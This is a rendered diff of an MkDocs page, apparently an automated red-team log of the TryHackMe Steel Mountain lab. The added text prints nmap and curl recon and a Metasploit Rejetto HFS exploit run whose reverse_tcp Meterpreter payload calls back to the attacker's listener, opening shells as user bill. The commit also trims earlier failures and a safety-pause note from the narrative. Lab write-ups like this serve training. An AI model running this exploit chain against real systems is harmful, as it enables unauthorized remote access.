

Before and after one commit to DeSecurity/Redteam-Hermes, an MkDocs documentation site: the page built from docs/walkthroughs/THM/steel-mountain-live.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
docs: replace noisy steel mountain live post with proof-backed logs

````diff
--- a/docs/walkthroughs/THM/steel-mountain-live.md
+++ b/docs/walkthroughs/THM/steel-mountain-live.md
@@ -6,63 +6,76 @@
 Last reset (UTC): 2026-05-22 22:05:22Z
 
 ## Quick status
-- Initial access path confirmed: Rejetto HFS 2.3 on port 8080.
-- One valid Meterpreter foothold was obtained.
-- Progress is currently paused when duplicate VPN tunnels are detected (safety rule to prevent false network conclusions).
+- Initial access vector confirmed: Rejetto HFS 2.3 on tcp/8080.
+- Multiple Meterpreter sessions have been opened as `STEELMOUNTAIN\\bill`.
+- Current phase: stabilize one session and continue privesc chain.
 
-## Attack path (human-readable)
-1. Enumerate exposed services.
-2. Validate HFS 2.3 as primary initial-access vector.
-3. Run controlled exploit attempts with payload/port rotation.
-4. On session open, stabilize shell and start privesc enumeration.
+## Attack path
+1. Service discovery + fingerprinting.
+2. Validate HFS 2.3 RCE path.
+3. Exploit with compatible payload/listener.
+4. Stabilize foothold and run host/privesc enumeration.
 
-## Recon baseline
-Confirmed externally reachable services:
-- 80/tcp: Microsoft IIS 8.5
-- 8080/tcp: Rejetto HttpFileServer 2.3
-- 445/tcp: SMB (anonymous listing denied)
-- 3389/tcp: RDP
-- 5985/tcp, 47001/tcp: WinRM / HTTPAPI
+## Recon baseline (proof)
+```text
+$ nmap -Pn -n -p80,8080 -sV 10.146.141.173
+PORT     STATE SERVICE VERSION
+80/tcp   open  http    Microsoft IIS httpd 8.5
+8080/tcp open  http    HttpFileServer httpd 2.3
+```
 
-Primary lead:
-- HFS 2.3 on 8080 is the best initial foothold candidate.
+```text
+$ curl -sI http://10.146.141.173:8080 | head
+HTTP/1.1 200 OK
+Server: HFS 2.3
+```
 
-## Snapshots (useful checkpoints)
+## Foothold proof (code/output)
+```text
+msf6 exploit(windows/http/rejetto_hfs_exec) > set payload windows/meterpreter/reverse_tcp
+msf6 exploit(windows/http/rejetto_hfs_exec) > run -z
+[*] Meterpreter session 1 opened (192.168.129.182:4444 -> 10.146.141.173:49395)
+```
+
+```text
+msf6 > sessions -l
+Id  Type                     Information                         Connection
+1   meterpreter x86/windows  STEELMOUNTAIN\bill @ STEELMOUNTAIN  192.168.129.182:4444 -> 10.146.141.173:49395
+```
+
+Later cycle evidence:
+```text
+[*] Meterpreter session 1 opened (... -> 10.146.141.173:49495)
+[*] Meterpreter session 2 opened (... -> 10.146.141.173:49497)
+```
+
+## Snapshots
 ### Snapshot 1 — Service discovery
 Time (UTC): 2026-05-22 22:04:45Z
-- 8080 identified as HFS 2.3.
-- Attack path prioritized to HFS RCE.
+- HFS 2.3 confirmed on 8080.
+- IIS 8.5 confirmed on 80.
 
-### Snapshot 2 — Foothold proof
+### Snapshot 2 — First validated foothold
 Time (UTC): 2026-05-22 22:24:24Z
-- Meterpreter session opened via `exploit/windows/http/rejetto_hfs_exec`.
-- Session context observed as `STEELMOUNTAIN\\bill @ STEELMOUNTAIN`.
+- Meterpreter session opened.
+- Session user/context: `STEELMOUNTAIN\\bill @ STEELMOUNTAIN`.
 
-### Snapshot 3 — Operational blocker + guardrail
-Time (UTC): 2026-05-22 22:26:22Z
-- Duplicate active tunnels detected (`tun0` and `tun1`).
-- Worker now auto-pauses on duplicate tunnels to avoid false filtered/down reads.
-- Worker auto-resumes once a single tunnel remains.
+### Snapshot 3 — Repeated foothold reliability
+Time (UTC): 2026-05-22 22:41:15Z
+- Additional Meterpreter sessions opened in later cycle.
+- Confirms exploit path remains viable, not a one-off.
 
-## Timeline (condensed)
-### 2026-05-22 22:07:28Z — First autonomous pass
-- Started focused HFS exploitation cycle.
+## Timeline (condensed, signal only)
+- 2026-05-22 22:04:45Z — Nmap + HTTP headers confirm IIS 8.5 and HFS 2.3.
+- 2026-05-22 22:24:24Z — First Meterpreter foothold opened as bill.
+- 2026-05-22 22:37:20Z — Additional foothold opened (new callback port on target side).
+- 2026-05-22 22:41:11Z / 22:41:15Z — Two more Meterpreter sessions opened.
 
-### 2026-05-22 22:07:51Z — No foothold yet
-- No stable session from first pass.
-- Added payload/port rotation for retries.
-
-### 2026-05-22 22:22:19Z — Continuous worker mode enabled
-- Worker switched from one-shot to persistent supervisor loop.
-- Added self-healing retries and compatibility handling.
-
-### 2026-05-22 22:24:24Z — Foothold achieved
-- Meterpreter session opened successfully.
-
-### 2026-05-22 22:26:22Z — Duplicate-tunnel blocker detected
-- Safety rule triggered; exploit attempts paused until tunnel state is clean.
+## Operator note
+- Prior tunnel/listener churn happened during automation hardening; noise removed from main narrative.
+- Keeping one active VPN tunnel and one clean listener remains enforced operationally.
 
 ## Next actions
-- Keep exactly one VPN tunnel active.
-- Resume post-foothold host enumeration and privilege escalation chain.
-- Capture user/root proof and append new snapshots only for meaningful milestones.
+- Lock onto a single stable session.
+- Run local/windows enum + privilege escalation checks.
+- Capture user/root proof with command/output snippets and append as next milestone snapshot.
````
